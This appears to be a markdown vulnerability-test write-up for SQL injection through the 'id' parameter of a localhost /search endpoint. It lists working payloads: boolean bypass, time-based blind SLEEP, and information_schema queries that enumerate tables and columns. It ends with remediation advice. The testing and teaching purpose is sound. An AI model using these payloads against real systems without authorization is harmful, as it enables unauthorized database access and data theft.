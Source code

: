 # Vulnerability Test: SQL Injection via GET Parameter

## Target
**Endpoint:** `/search?id=1`  
**Method:** GET  
**Tool:** HTTPie / Python Script

---

## Purpose
To test whether the `id` GET parameter is vulnerable to SQL injection and, if so, whether it allows:
- Error-based SQLi
- Blind SQLi
- Extraction of database schema and data via `information_schema`

---

## Test Setup
**Request Example:**
```bash
http GET http://localhost:5000/search?id=1
```

**Vulnerable Parameter:** `id`  
**Payload Examples:**
- `1 OR 1=1` (Authentication bypass)
- `1' AND SLEEP(5)--+` (Blind SQLi via time delay)
- `1' AND (SELECT COUNT(*) FROM information_schema.tables)--+` (Info schema enumeration)

---

## Request/Response Log

**Injected Request:**
```bash
http GET http://localhost:5000/search?id=' OR 1=1--+
```

**Expected Response:**
- `200 OK`
- If vulnerable: may return more results or user info that shouldn't be shown.
- If time-based: delay in response indicates successful blind injection.

---

## Exploitation Explanation

### Why this works:
If the `id` parameter is used unsafely in SQL queries without sanitization (e.g., via f-strings or string concatenation), attackers can manipulate it to execute arbitrary SQL.

### Security Impact:
- Possible unauthorized access to records
- Exposure of schema and sensitive data
- Lateral movement to other vulnerabilities

---

## Further Exploitation
1. Use `information_schema.tables` to enumerate table names:
```sql
' AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())--+
```

2. Extract column names:
```sql
' AND (SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 1 OFFSET 0)--+
```

---

## Recommendations
- Use prepared statements or parameterized queries.
- Filter and validate all user input.
- Employ WAF and logging to detect suspicious activity.